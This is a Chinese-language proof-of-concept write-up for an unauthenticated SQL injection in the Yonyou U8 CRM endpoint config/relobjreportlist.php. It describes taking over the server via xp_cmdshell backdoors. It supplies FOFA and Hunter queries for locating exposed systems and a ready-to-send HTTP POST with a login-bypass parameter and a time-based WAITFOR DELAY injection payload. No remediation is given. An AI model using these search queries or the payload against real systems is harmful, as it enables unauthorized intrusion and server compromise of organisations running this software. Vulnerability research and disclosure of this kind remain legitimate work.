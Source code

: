 # 用友U8CRM系统接口relobjreportlist.php存在SQL注入漏洞

用友U8 CRM 客户关系管理系统 config/relobjreportlist.php 文件存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## fofa

```javascript
title="用友U8CRM"
```

## hunter

```javascript
app.name="用友 CRM"
```

## poc

```javascript
POST /config/relobjreportlist.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=bgsesstimeout-;

DontCheckLogin=1&Action=CheckRelUser&typeID=1&objType=1&ids=1');WAITFOR DELAY '0:0:5'--
```

![image-20240918135123639](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409181351732.png)